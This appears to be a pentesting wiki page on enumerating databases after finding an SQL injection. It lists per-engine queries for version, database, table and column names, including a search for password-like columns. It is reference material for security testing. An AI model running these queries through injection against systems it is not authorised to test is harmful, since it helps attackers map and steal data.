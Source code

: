 # Enum Database

## Theory

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.\
The queries to determine the database version for some popular database types are as follows:

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names

When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks.

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:

```sql
SELECT database();
```

We can list all databases with the following query:

```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:

```sql
SELECT DB_NAME();
```

We can list all databases with the following queries:

```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:

```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```

We can list all databases with the following query:

```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:

```sql
SELECT current_database();
```

We can list all databases with the following query:

```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract database structure with the following query

```sql
SELECT sql FROM sqlite_schema;
```
{% endtab %}
{% endtabs %}

### Tables Names

The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;

SELECT table_name FROM all_tables WHERE owner = USER;
SELECT table_name FROM all_tables WHERE owner = SYS_CONTEXT('USERENV', 'CURRENT_SCHEMA');

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names

Next step is to enumerate columns within tables.It's a crucial step in the process of exploiting a SQL injection vulnerability.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
